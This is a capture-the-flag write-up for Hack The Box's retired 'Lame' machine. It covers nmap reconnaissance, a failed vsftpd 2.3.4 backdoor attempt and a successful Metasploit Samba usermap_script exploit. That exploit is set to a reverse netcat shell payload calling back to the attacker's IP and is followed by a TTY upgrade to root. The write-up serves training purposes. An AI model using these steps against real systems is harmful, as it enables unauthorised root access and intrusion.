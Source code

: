# Lame - Retired Machine
**About Lame**\
Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
## Step 1 - Nmap Scan
Just performed basic nmap scan:\
`nmap -sC -SV <Target-IP>`\
where:\
`-sC` - Scan with default NSE scripts. Considered useful for discovery and safe.\
`-sV` - Attempts to determine the version of the service running on port.

The Output it produced is in the file - [Nmap output file](HTB-Labs-Docs/Lame/Nmap.txt)
## Step 2 - Exploiting the FTP 
In Nmap scan, FTP was open and it was accessible via the `Anonymous` login, but it doesn't work.
After all i looked about the version of ftp which is used, `VsFTPd 2.3.4` and searched for vulnerability.\
Luckly there is a vulnerability in the respected version of the FTP known as **VSFTPD v2.3.4 Backdoor Command Execution** and there is open exploit in [rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).\
So, executed metasploit exploit using the `exploit/unix/ftp/vsftpd_234_backdoor` payload, Unfortunatly it **FAILED**.
## Step 3 - Exploiting the SMB 
In Nmap scan, SMB was open and without wasting time reviewed the version of it `smbd 3.0.20-Debian` and searched for any vulnerability on the particular version of SMB./
Yes, it is there **Samba "username map script" Command Execution**. 
> In old versions of Samba, there is a feature that maps fake usernames to real ones using a script.
But this mapping process is broken, if you give Samba a specially crafted username, it will run system commands instead of just mapping names.

Again in [rapid7](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/) found the metasploit exploit. Then, using the `exploit/multi/samba/usermap_script` exploit and with necessary settings;
```
set RHOSTS <Target-IP>
set PAYLOAD payload/cmd/unix/reverse_netcat
set LHOST <tun0-IP>
run
```
Successfully gained the shell. using `whoami` found that im as root.
## Step 4 - Collecting the Flags
As final steps, the shell is dumb and with the command `python -c 'import pty; pty.spawn("/bin/bash")'` the shell is TTY.\
HTB asks for user makis, root flags which can be easily found by searching the directories.\
Finally Pawned the machine.

![Lame Machine Pawned](https://github.com/Nithin-vs/HTB-Labs-Docs/blob/main/Lame/Acheived.png)
